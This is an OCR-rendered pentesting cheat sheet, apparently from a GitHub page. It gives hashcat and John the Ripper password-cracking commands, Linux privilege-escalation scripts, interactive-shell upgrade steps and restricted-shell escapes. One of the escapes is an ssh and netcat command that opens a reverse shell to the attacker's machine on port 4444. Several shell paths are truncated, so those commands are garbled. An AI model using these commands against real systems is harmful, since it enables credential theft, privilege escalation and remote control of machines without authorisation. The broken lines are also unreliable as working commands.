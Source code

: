 ``` 
hashcat -m 1000 -a 0 hash.txt rockyou.txt
hashcat -m 1000 -a 0 hash.txt rockyou.txt -r OneRuleToRuleThemAll.rule
```

- John the ripper

``` 
john --wordlist=<PASSWORDS_LIST> hash.txt
```

# privilege escalation

### Linux privilege escalation
- Automated scripts

``` 
linPEAS.sh
LinEnum.sh
linuxprivchecker.py
```

- spawning interactive shell and setting env

``` 
python -c 'import pty;pty.spawn("/bin/ ");'  
ctrl z  
echo $TERM  
stty -a  
stty raw -echo  
fg  

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:$PATH  
export TERM=xterm256-color  
export SHELL=   

stty rows \<> colums \<>  
```

- restricted   

``` 
perl -e 'exec "/bin/sh";'  
/bin/sh -i  
exec "/bin/sh";  
echo os.system('/bin/ ')  
/bin/sh -i  
ssh user@$ip nc $localip 4444 -e /bin/sh  
export TERM=linux  
```

- check what can be run as sudo 

``` 
sudo -l
```
